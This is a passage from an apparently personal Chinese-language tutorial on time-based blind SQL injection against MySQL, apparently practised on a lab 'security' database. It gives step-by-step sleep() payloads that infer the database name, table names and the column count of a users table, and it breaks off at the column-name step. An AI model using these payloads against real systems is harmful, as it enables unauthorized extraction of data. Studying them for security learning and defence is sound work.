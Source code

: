 ```sql
and sleep(3) -- 
```

#### （2）猜测当前数据库名称的长度

如果正确那么就延迟3秒，如果不正确就立即返回

```sql
and if((length(database()))>5,sleep(3),sleep(0)) -- 
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220801005538015.png" alt="image-20220801005538015" style="zoom:50%;" />

#### （3）逐个猜解当前数据库名称的每一个字符

```sql
and if((substr(database(),1,1)='s'),sleep(3),1) -- 
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220801005713489.png" alt="image-20220801005713489" style="zoom:50%;" />

或者，通过ascii码，逐个猜解当前数据库名称的每一个字符

```sql
and if((ascii(substr(database(),1,1))<=120),sleep(3),1) -- 
```

#### （4）猜解当前数据库下表的数量

```sql
and if((select count(*) from information_schema.tables where table_schema='security')<5,sleep(3),1) -- 
```

#### （6）猜解每个表名的长度

使用limit语句

```sql
and if((select length((select table_name from information_schema.tables where table_schema='数据库名' limit 3,1))<=10),sleep(3),1) -- 
```

#### （7）猜解每个表的每个字符

```sql
and if((select ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 3,1),1,1)))<=120,sleep(3),1) -- 
```

#### （8）猜解users表的字段数量

```sql
and if(((select count(*) from information_schema.columns where table_schema='security' and table_name='users')<=10),sleep(3),1) -- 
```

#### （9）猜解每个列名的长度
